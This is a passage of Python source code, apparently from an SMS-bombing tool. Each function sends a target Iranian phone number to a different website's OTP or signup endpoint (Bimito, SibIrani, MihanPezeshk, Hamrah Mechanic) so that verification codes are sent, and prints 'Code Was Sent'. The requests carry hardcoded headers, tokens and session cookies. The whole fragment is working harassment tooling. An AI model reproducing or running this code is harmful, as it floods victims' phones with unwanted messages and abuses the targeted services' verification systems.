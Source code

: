 'referer': 'https://bimito.com/',
'user-agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.93 Safari/537.36 OPR/82.0.4227.33',
'user-token': 'swS1oSzN22kTVTI8DqtRhUrgUfsKBiRdBeosjlczNV07XSbeVHB7R622Mw9O7uzp'}
    try:
        liR = post(timeout=5, url=liU, headers=liH).json()
        if liR['message'] == 'کاربر قبلا ثبت نام نشده است':
            print(f'{g}(BimitoVip) {w}Code Was Sent')
            return True
    except:
        pass
def seebirani(phone):
    liJ = {
    "username": "0"+phone.split('+98')[1]
}
    liU = "https://sandbox.sibirani.ir/api/v1/user/invite"
    liH = {'accept': 'application/json',
'accept-encoding': 'gzip, deflate, br',
'accept-language': 'en-US,en;q=0.9',
'content-type': 'application/json',
'origin': 'https://developer.sibirani.com',
'referer': 'https://developer.sibirani.com/',
'user-agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.93 Safari/537.36 OPR/82.0.4227.33'}
    try:
        post(timeout=5, url=liU, headers=liH, json=liJ)
        print(f'{g}(SeebIrani) {w}Code Was Sent')
        return True
    except:
        pass
def mihanpezeshk(phone):
    gaD = f'_token=bBSxMx7ifcypKJuE8qQEhahIKpcVApWdfZXFkL8R&mobile={"0"+phone.split("+98")[1]}&recaptcha='
    gaU = 'https://www.mihanpezeshk.com/ConfirmCodeSbm_Patient'
    gaH = {'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
'accept-encoding': 'gzip, deflate, br',
'accept-language': 'en-US,en;q=0.9',
'cache-control': 'max-age=0',
'content-type': 'application/x-www-form-urlencoded',
'cookie': 'XSRF-TOKEN=eyJpdiI6IitzYVZRQzFLdGlKNHRHRjIxb3R4VWc9PSIsInZhbHVlIjoianR6SXBJXC9rUStMRCs0ajUzalNjM1pMN053bUNtSlJ5dzYrVzFxV1dtXC9SREp4OTJ0Wm1RWW9yRVwvM29Cc3l4SCIsIm1hYyI6IjdjODczZWI4Y2Q2N2NhODVkNjE5YTRkOWVhNjRhNDRlNmViZjhlNDVkNDYwODFkNzViOTU2ZTdjYTUwZjhjMWUifQ%3D%3D; laravel_session=eyJpdiI6ImU3dlpRdXV1XC9TMmJEWk1LMkFTZGJRPT0iLCJ2YWx1ZSI6IktHTWF0bFlJU0VqVCthamp5aW1GRHdBM1lNcjNMcVFxMWM5Ynd3clZLQzdva2ZJWXRiRU4xaUhyMnVHMG90RkUiLCJtYWMiOiJkZWRmMGM5YzFiNDNiOTJjYWFiZDc0MjYxMDUyMzBmYTMzMmI5ZTBkODA1YTMxODQyYzM2NjVjZWExZmYwMzdhIn0%3D',
'origin': 'https://www.mihanpezeshk.com',
'referer': 'https://www.mihanpezeshk.com/confirmcodePatient',
'upgrade-insecure-requests': '1',
'user-agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36'}
    try:
        gaR = post(url=gaU, headers=gaH, data=gaD)
        print(f'{g}(MihanPezeshk) {w}Code Was Sent')
        return True
    except:
        pass
def mek(phone):
    meU = 'https://www.hamrah-mechanic.com/api/v1/auth/login'
    meH = {
"Accept": "application/json",
"Accept-Encoding": "gzip, deflate, br",
"Accept-Language": "en-US,en;q=0.5",
"Connection": "keep-alive",
